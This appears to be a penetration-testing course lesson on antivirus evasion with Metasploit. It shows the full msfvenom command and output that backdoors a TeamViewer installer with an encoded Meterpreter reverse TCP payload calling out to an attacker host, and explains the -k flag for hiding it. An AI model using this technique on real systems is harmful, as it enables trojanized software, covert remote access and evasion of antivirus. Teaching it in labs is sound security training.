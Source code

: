 Returning to msfconsole, its capability to now sustain AES-encrypted tunnels, together with Meterpreter's feature of running in memory, raises our capability by a margin. However, we still have the issue of what happens to a payload once it reaches its destination, before it is run and placed into memory. This file could be fingerprinted for its signature, matched against the database, and blocked, together with our chances of accessing the target. We can also be sure that AV software developers are looking at msfconsole modules and capabilities to add the resulting code and files to their signature database, resulting in most if not all of the default payloads being immediately shut down by AV software nowadays.

We are in luck because `msfvenom` offers the option of using executable templates. This allows us to use some pre-set templates for executable files, inject our payload into them (no pun intended), and use `any` executable as a platform from which we can launch our attack. We can embed the shellcode into any installer, package, or program that we have at hand, hiding the payload shellcode deep within the legitimate code of the actual product. This greatly obfuscates our malicious code and, more importantly, lowers our detection chances. There are many valid combinations between actual, legitimate executable files, our different encoding schemes (and their iterations), and our different payload shellcode variants. This generates what is called a backdoored executable.

Take a look at the snippet below to understand how msfvenom can embed payloads into any executable file:

  Perimeter Protection

```shell-session
Luis Miguel Jaime Hernandez@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5

Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 27 (iteration=0)
x86/shikata_ga_nai succeeded with size 54 (iteration=1)
x86/shikata_ga_nai succeeded with size 81 (iteration=2)
x86/shikata_ga_nai succeeded with size 108 (iteration=3)
x86/shikata_ga_nai succeeded with size 135 (iteration=4)
x86/shikata_ga_nai chosen with final size 135
Payload size: 135 bytes
Saved as: /home/user/Desktop/TeamViewer_Setup.exe
```

```shell-session
Luis Miguel Jaime Hernandez@htb[/htb]$ ls

Pictures-of-cats.tar.gz  TeamViewer_Setup.exe  Cake_recipes
```

For the most part, when a target launches a backdoored executable, nothing will appear to happen, which can raise suspicions in some cases. To improve our chances, we need to trigger the continuation of the normal execution of the launched application while pulling the payload in a separate thread from the main application. We do so with the `-k` flag as it appears above. However, even with the `-k` flag running, the target will only notice the running backdoor if they launch the backdoored executable template from a CLI environment. If they do so, a separate window will pop up with the payload, which will not close until we finish running the payload session interaction on the target.
